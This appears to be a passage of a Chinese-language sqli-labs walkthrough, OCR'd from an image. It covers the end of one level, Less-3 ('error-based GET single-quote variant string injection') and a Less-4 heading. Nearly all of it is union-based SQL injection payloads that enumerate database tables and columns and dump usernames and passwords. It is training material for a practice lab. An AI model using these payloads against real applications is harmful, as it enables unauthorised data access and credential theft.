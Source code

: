 

```
?id=1 and 1=2 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```



```
?id=1 and 1=2 union select 1,2,group_concat(username) from security.users --+
```



```
?id=1 and 1=2 union select 1,2,group_concat(password) from security.users --+
```





### Less-3

基于错误的GET单引号变形字符型注入



```
?id=-1') order by 3 --+
```



```
?id=-1') union select 1,2,database(); --+
```



```
?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+
```



```
?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```



```
?id=-1') union select 1,2,group_concat(username) from security.users --+
```



```
?id=-1') union select 1,2,group_concat(password) from security.users --+
```



### Less-4
